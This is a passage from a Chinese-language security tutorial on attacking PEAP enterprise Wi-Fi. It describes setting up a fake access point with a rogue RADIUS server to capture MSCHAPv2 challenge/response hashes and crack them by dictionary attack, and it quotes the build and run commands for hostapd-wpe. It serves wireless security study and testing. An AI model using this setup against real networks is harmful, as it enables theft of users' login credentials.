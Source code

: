 ![未经验证的证书](http://drops.javaweb.org/uploads/images/b0f0bed6b5ef3142b1c3f60e324f0762e9e10ab6.jpg)

3.2 PEAP Attack
---------------

那么针对PEAP的攻击手法就很明确了：

1.  Fake AP + RADIUS Server。伪造热点骗取客户端的连接建立TLS隧道，在用户与伪造的Radius服务器进行认证交互时，记录下凭证hash值(Challenge/Response）
2.  通过字典攻击跑出密码

工具可以使用FreeRadius-WPE，这是一款针对开源FreeRADIUS服务器的补丁程序。 使用方法可参考知识库上mickey写的[《破解使用radius实现802.1x认证的企业无线网络》](http://drops.wooyun.org/tools/8294)一文，这里便不再赘述。

不过 FreeRadius-WPE 项目已经在14年停止维护，OpenSecurityResearch 制作了一个替代品 hostapd-wpe，可直接为hostapd打补丁支持 PEAP/MSCHAPv2、EAP-TTLS/MSCHAPv2等攻击。

### Hostapd-WPE

项目地址： https://github.com/OpenSecurityResearch/hostapd-wpe 官方文档：

```
Ubuntu/Debian/Kali Building - 
-----------------------------------------------------------------------
    apt-get update
    apt-get install libssl-dev libnl-dev

General - 
------------------------------------------------------------------------
    git clone https://github.com/OpenSecurityResearch/hostapd-wpe

    wget http://hostap.epitest.fi/releases/hostapd-2.2.tar.gz
    tar -zxf hostapd-2.2.tar.gz
    cd hostapd-2.2
    patch -p1 < ../hostapd-wpe/hostapd-wpe.patch 
    cd hostapd

    #If you're using Kali 2.0 edit .config file and uncomment:CONFIG_LIBNL32=y
    make

    I copied the certs directory and scripts from FreeRADIUS to ease that 
    portion of things. You should just be able to:

    cd ../../hostapd-wpe/certs
    ./bootstrap

    #then finally just:

    cd ../../hostapd-2.2/hostapd
    sudo ./hostapd-wpe hostapd-wpe.conf

```

建立成功后，用手机连上此热点，输入账号密码就可观察到被记录hash值(Challenge/Response），被记录在hostapd-wpe.log
